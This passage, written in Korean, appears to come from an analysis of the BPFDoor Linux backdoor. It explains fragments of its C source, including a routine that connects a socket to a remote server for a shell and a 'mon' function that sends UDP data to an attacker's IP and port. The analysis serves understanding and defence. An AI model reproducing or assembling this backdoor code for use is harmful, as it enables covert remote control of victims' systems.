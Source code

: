     - `AF_INET`: IPv4 주소 패밀리을 사용
    - `SOCK_STREAM`: TCP(스트림 지향) 소켓 타입
    - `0`: 기본 프로토콜(TCP의 경우 `IPPROTO_TCP`) 사용

3. **주소 패밀리 및 포트 설정**

    ```c
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = port;
    ```

4. **연결 시도**

    ```c
    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(struct sockaddr)) == -1 ) {
        close(sock);
        return -1;
    }
    return sock;
    ```

    - 생성된 소켓 `socket`을 사용하여 `serv_addr`에 지정된 원격 서버에 연결을 시도한다.
    - 연결 시도에 실패하면 소켓을 닫고 `-1`을 반환, 연결에 성공하면 연결이 설정된 소켓의 파일 디르크립터인 `sock`을 반환한다. 이 소켓은 이후 `shell` 함수를 통해 통신하는 데에 사용된다.

### **주요 함수 분석) mon**

- 패스워드가 불일치할 때(`socket`, `justforfun` 모두 아닌 경우) 호출되는 함수로, 공격자의 IP 주소와 공격자가 정한 port로 데이터 `1`을 전송하는 함수이다. BPFDoor 연결이 정상적으로 되었는지를 확인할 수 있는 기능을 수행한다.

1. **함수 시그니처**

    ```c
    int mon(in_addr_t ip, unsigned short port)
    ```

    - `ip`: 소켓을 통해 데이터를 전달할 ip 주소를 받는 매개변수. 호출되는 부분에서 **공격자의 IP**가 인자로 전달된다.
    - `port`: 소켓을 통해 전달할 주소의 port를 받는 매개변수. 호출되는 부분에서 **공격자가 매직 패킷으로 전달한 port 번호**가 인자로 전달된다.

2. **소켓 생성**

    ```c
    if ((sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) < -1) {
            return -1;
    }
    ```

    - 다음 인자들을 전달하여 소켓을 생성하여 `sock` 변수에 저장한다.
        - `AF_INET` : IPv4 주소를 사용
        - `SOCK_DGRAM` : 비연결 지향형 소켓
        - `IPPROTO_UDP` : UDP를 기반으로 하는 소켓을 생성(비연결 지향형 소켓)

3. **소켓 연결 정보 구조체 설정**

    ```c
    remote.sin_family = AF_INET;
    remote.sin_port   = port;
    remote.sin_addr.s_addr = ip;
    ```
